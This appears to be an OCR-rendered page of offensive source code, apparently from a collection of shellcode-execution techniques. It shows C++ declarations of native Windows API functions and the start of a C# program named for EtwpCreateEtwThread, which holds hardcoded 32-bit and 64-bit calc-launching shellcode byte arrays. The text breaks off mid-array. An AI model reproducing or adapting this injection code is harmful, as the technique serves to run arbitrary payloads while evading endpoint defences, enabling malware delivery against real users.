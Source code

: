 ```cpp
	IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	IN HANDLE ProcessHandle,
	IN PVOID StartRoutine,
	IN PVOID Argument OPTIONAL,
	IN ULONG CreateFlags,
	IN SIZE_T ZeroBits,
	IN SIZE_T StackSize,
	IN SIZE_T MaximumStackSize,
	IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

EXTERN_C NTSTATUS NtWaitForSingleObject(
	IN HANDLE ObjectHandle,
	IN BOOLEAN Alertable,
	IN PLARGE_INTEGER TimeOut OPTIONAL);

EXTERN_C NTSTATUS NtClose(
	IN HANDLE Handle);

EXTERN_C NTSTATUS NtFreeVirtualMemory(
	IN HANDLE ProcessHandle,
	IN OUT PVOID * BaseAddress,
	IN OUT PSIZE_T RegionSize,
	IN ULONG FreeType);

#endif
```




- **`using EtwpCreateEtwThread`**
```cs
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace EtwpTest
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] shellcode = { };

            byte[] calc32bitShellCode = new byte[]
            {
                0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,
                0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,
                0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,
                0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,
                0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,
                0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,
                0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,
                0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,
                0x6a,0x01,0x8d,0x85,0xb9,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,
                0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,
                0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,
                0x61,0x6c,0x63,0x00
            };

            byte[] calc64bitShellCode = new byte[]
            {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,
                0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
```